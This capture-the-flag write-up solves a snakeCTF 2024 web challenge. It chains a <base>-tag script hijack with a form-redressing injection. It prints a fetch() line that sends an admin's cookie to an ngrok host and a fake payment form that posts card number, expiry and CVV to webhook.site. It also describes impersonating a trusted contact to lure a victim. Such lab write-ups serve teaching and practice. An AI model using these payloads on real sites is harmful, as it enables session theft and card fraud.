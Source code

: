 # SlashGirlfriends 2 [_snakeCTF 2024 Finals_]

**Category**: Web

## Description
Some people just couldn't get enough of SlashGirlfriends, that's why we're back for round 2.
Word is, the site's admins didn't learn their lesson from last time and left a few doors open...
This time, the secrets are bigger, juicier, and might even cost a little to uncover.
    
Can you charm your way past their defenses and steal the flag from someone?

## Solution

### Vulnerability 1: Arbitrary JavaScript execution on profile pages

The first vulnerability exists within the "about me" section of the public user profiles. This section permits markdown and specific HTML tags, including the `<base>` tag, which sets the base URL for all relative URLs in the page.

At the end of the profile page, a `console.js` script is loaded via a relative URL. By altering the base URL to point to an external server, the script's source can be controlled, enabling the execution of arbitrary JavaScript code.

The following payload can be added to the "about me" section to exploit this vulnerability:

```html
# my about me

<base href=http://your-ngrok-tunnel.ngrok.io>
```

After setting the base URL, the script will be loaded from our server, which enables arbitrary javascript execution. The following payload can be used to steal the admin's authentication cookie:

```js
fetch("http://your-ngrok-tunnel.ngrok.io/steal?cookie=" + btoa(document.cookie));
```

To trigger this, the profile can be reported from another account, prompting the administrator to view it. Upon visiting the profile, the admin's authentication cookie is exfiltrated, allowing login as the administrator.

### Vulnerability 2: UI redressing in the payment processor service

When purchasing a premium plan, users are redirected to a payment processor service. This page contains two disabled input fields displaying the user's username and email. Attempting to set a username such as `">` reveals that the input is not sanitised. This input can be exploited for a UI redressing attack.

While direct JavaScript injection is restricted by the Content Security Policy (CSP) header (`script-src 'self'`), the legitimate payment form can be hidden, and a fake form can be displayed instead. The following payload achieves this:

```html
"> </form>
<style>form:not(.show){"{display:none}"}</style>
<form class="show" action="http://webhook.site/your-uuid">
    <input name="pan">
    <input name="exp">
    <input name="cvv">
    <input name="notes">
</form><!--
```

When the fake form is submitted, the payment data, including the notes field containing the flag, is sent to the attacker's server.

### Combining the vulnerabilities to steal the flag

To combine these vulnerabilities, the following steps are performed:

- After obtaining the admin's authentication cookie using the profile page vulnerability, it is possible to search for the page from which the admin monitors the chats, as hinted by the initial message on them. The admin panel can be accessed via the `/admin` route, which can be found in the `_buildManifest.js` file.
- The admin panel allows viewing and sending messages on behalf of user-created girlfriends. From this page, it is observed that user `marco` frequently messages the girlfriend `lilvirgola`.
- A crafted message from `lilvirgola` containing a link to the doctored payment page can be sent to `marco`. (As `marco`'s "about me" says: "I trust her with all my heart, and I'd click ***any*** link she gives me!")
- When `marco` submits the fake payment form, the flag is included in the `notes` field and transmitted to the attacker's server.
